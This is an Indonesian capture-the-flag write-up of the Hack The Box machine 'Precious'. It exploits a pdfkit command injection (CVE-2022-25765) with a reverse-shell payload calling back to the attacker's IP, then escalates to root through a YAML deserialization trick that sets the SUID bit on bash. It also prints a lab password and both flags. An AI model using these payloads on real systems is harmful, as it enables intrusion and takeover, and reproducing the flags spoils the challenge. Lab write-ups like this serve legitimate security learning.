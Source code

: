 # Precious 
**SOLVED : JAN 11 | 2023**
![Precious](https://user-images.githubusercontent.com/92077284/211991670-4b07aee9-b558-4b25-9b42-47e17659e981.png)

## Information Gathering
![image](https://user-images.githubusercontent.com/92077284/213347545-adaa6f23-5523-436a-a37d-9aa5c28a627a.png)  
![image](https://user-images.githubusercontent.com/92077284/211992854-535f66c3-a172-4997-9d7d-82a58bb42449.png)  
Pertama - tama lakukan proses **nmap** pada ip yang sudah diberikan pada web htb, hal ini berfungsi untuk memeriksa layanan yang tersedia dalam jaringan  
Didapati ada 2 port, yaitu port **22 dan 80**, serta alamat web yaitu precious.htb  
Disini disimpulkan bahwa **port 22** untuk akses ssh, dan **port 80** adalah penyedia webnya  
Untuk mengakses precious.htb diperlukan command `sudo vim /etc/hosts` untuk menambahkan `10.10.11.189 precious.htb`  
![image](https://user-images.githubusercontent.com/92077284/211993812-b3068588-4e9d-408d-af3d-45356d7fba78.png)  
Masuk ke **10.10.11.189**  
![image](https://user-images.githubusercontent.com/92077284/211994354-6a6245cb-f01b-4bde-8634-d19b03e707eb.png)  
Apabila dicoba isi 'http://google.com' maka akan menunjukan tampilan seperti ini, karena tertulis _Cannot load remote URL!_ maka saya coba untuk _serving http server_  
![image](https://user-images.githubusercontent.com/92077284/211995365-debd1424-dd52-41d1-a55e-4d5855cc7e37.png)  
disini akan dilakukan hosting pada port 80 dengan ip yang sesuai dengan ip di **tun0**, agar nantinya dapat ditangkap oleh website  
![image](https://user-images.githubusercontent.com/92077284/211996025-da71de3e-fdf1-44f5-9b52-be06a30c0176.png)  
![image](https://user-images.githubusercontent.com/92077284/213347427-0cbe2aeb-7399-44cc-9ece-ac74a25d8131.png)  
Lalu coba masukan 'http://10.10.14.30:80' ke dalam website  
![image](https://user-images.githubusercontent.com/92077284/211996453-a4bd650a-8551-4b1d-bd86-c485a273c7d7.png)  
Didapati file pdf sebagai berikut, yang bila dibuka akan menampilkan list directory di tempat _serving http server_  
![image](https://user-images.githubusercontent.com/92077284/211996521-9d32d634-253e-4ae5-b2f6-144b1ce999dc.png)  
![image](https://user-images.githubusercontent.com/92077284/213354581-a64b7b8a-5786-406b-b3fa-3ae0ca537556.png)  
Setelah itu analisa file pdf menggunakan **exiftool**, file di analisa menggunakan tool ini karena saya ingin mengetahui meta data dari file atau ada hal yang mencurigakan dari file.   
![image](https://user-images.githubusercontent.com/92077284/211996948-fb392098-7706-4054-8e85-0d6e1068d64f.png)  
Disini saya memanfaatkan **pdfkit v0.8.6** sebagai celah untuk masuk kedalam sistem, pdfkit adalah _PDF document generation library_ untuk browser, yang fungsinya memudahkan browser membuat file, namun pada versi ini terdapat celah kerentanan dimana kita dapat melakukan _Command Injection_ karena URL tidak di sanitasi.  

**CVE-2022–25765** Source: https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795  
Dari situ dapat dibuat sebuah _reverse shell_ dengan bantuan **Hack-Tools**  
**Hack-Tools** = https://chrome.google.com/webstore/detail/hack-tools/cmbndhnoonmghfofefkcccljbkdpamhi  
![image](https://user-images.githubusercontent.com/92077284/213356703-8097f1a2-5a5f-498d-9ece-69cbb88491eb.png)  

```
http://example.com/?name=#{'%20`sleep 5`'}
http://example.com/?name=#{'%20``'}
```
menjadi   
```
http://example.com/?name=#{'%20`bash -c 'exec bash -i &>/dev/tcp/10.10.14.30/443 <&1'`'}
```
Untuk memulai tahapannya, pertama coba untuk _listen_ pada port 443  
![image](https://user-images.githubusercontent.com/92077284/213357167-d793b9f5-d2eb-4dfc-b7f7-adae4d6ca264.png)  
lalu buat _payload_ dan masukan kedalam website, untuk melakukan _command injection_  
```
http://example.com/?name=#{'%20`bash -c 'exec bash -i &>/dev/tcp/10.10.14.30/443 <&1'`'}
```
![image](https://user-images.githubusercontent.com/92077284/213357672-62b90aeb-1762-418d-9e22-edc9fa001afb.png)  
lalu aktivitas akan terekam pada terminal yang tadi  
![image](https://user-images.githubusercontent.com/92077284/213358242-9cd66e8b-48e6-4f71-a2b9-86420ffc9b8b.png)  
_Note : IP berbeda karena WU dibuat pada hari berbeda_  

Karena sudah masuk, maka disini akan dilakukan pencarian **flag**  
Yang saya lakukan pertama adalah masuk ke directory awal  
![image](https://user-images.githubusercontent.com/92077284/213358684-a63b2268-5d14-4eef-ad78-9a6dba781803.png)  
lalu disini saya memutuskan untuk masuk ke directory **home** karena biasanya user akan disimpan pada directory ini  
![image](https://user-images.githubusercontent.com/92077284/213358862-5dbc5421-0c27-4afe-b2af-ae987b8e7fea.png)  
Ditemukan 2 user , yaitu **henry** dan **ruby**, disini saya mencoba masuk ke **henry**, namun ada keterbatasan akses
setelah itu saya mencoba untuk masuk ke **ruby**  
![image](https://user-images.githubusercontent.com/92077284/213359072-53bf1b90-981f-44d6-b171-b49d3ba1d2c5.png)  
Disini awalnya saya melihat apa saja yang ada dalam direcotry ini, lalu setelah mencoba-coba, ternyat directory **.bundle** dapat diakses, dan ternyata menampung kredensial dari **henry**

Kredensial henry : `henry:Q3c1AqGHtoI0aXAYFH`  

Setelah itu saya masuk ke akun henry menggunakan *ssh*  
![image](https://user-images.githubusercontent.com/92077284/213359292-7cf62917-2301-4c03-95e2-779249e58a0c.png)  
setelah itu ternyata sudah bisa diakses untuk **user.txt**, dan disini juga sekaligus menjadi **FLAG USER**  
![image](https://user-images.githubusercontent.com/92077284/213359417-af9dc795-4d34-4037-a835-8257176cc76c.png)  

**FLAG USER** = `a13c7cb8903ad65d586d143f089a7d31`

Step berikutnya saya coba untuk mengakses *root* ternyata belum bisa  
![image](https://user-images.githubusercontent.com/92077284/213359997-fdb4c873-b486-49d0-ba13-a690ca14b368.png)  

Step selanjutnya saya memeriksa *privilage henry*  
![image](https://user-images.githubusercontent.com/92077284/213359780-b77de642-3b9e-4832-9939-adc80791b6bd.png)  
Ternyata ada file yang mengatur akses privilage yaitu pada `/usr/bin/ruby /opt/update_dependencies.rb`  
Disini saya coba untuk membaca file **update_dependencies.rb**  
![image](https://user-images.githubusercontent.com/92077284/213360542-7f2c594e-b5be-4dde-92fe-dbe89aadac11.png)  
Setelah dianalisa, ternyata bagian ini dapat dilakukan **YAML Deserialization Attack** karena terdapat bagian pada file yang mengatakan `YAML.load(File.read("dependencies.yml"))`

Source : https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/

Karena tadi yang menjadi permasalahan adalah soal _permission access_,  
![image](https://user-images.githubusercontent.com/92077284/213361192-0d8ba32a-a978-4f30-84ac-36199edbdd59.png)  
maka kita bisa merubah akses henry menjadi lebih tinggi, yaitu dengan menambahkan file dependencies.yml dengan template pada **source** pada bagian **git_Set** menjadi `"chmod u+s /bin/bash"`  
![image](https://user-images.githubusercontent.com/92077284/213362505-18ff1a20-0db7-49ae-80ce-6f9286e13587.png)  
![image](https://user-images.githubusercontent.com/92077284/213362901-2ac4d9a0-902b-415d-8a5e-1f312a733ad9.png)  
![image](https://user-images.githubusercontent.com/92077284/213362528-2e9937aa-77f8-4b07-a752-f343fe7d0f6b.png)  
Setelah menyimpan file `dependencies.yml` pada folder henry, sekarang coba untuk melakukan update permission dengan command `sudo /usr/bin/ruby /opt/update_dependencies.rb` dan sekarang directory **/bin/bash** sudah dapat diakses  
![image](https://user-images.githubusercontent.com/92077284/218143683-2d4fdcc1-3adb-45b9-999f-f2061d9fd95e.png)  
Setelah itu masuk kedalam bash untuk mengakses directory root, dan mengambil flagnya  
![image](https://user-images.githubusercontent.com/92077284/218143897-e63a82af-ec0e-43dd-ac11-64c16937f6f3.png)  

**FLAG ROOT** = `afa996c3ff48e061a0849b9f5848fff2`

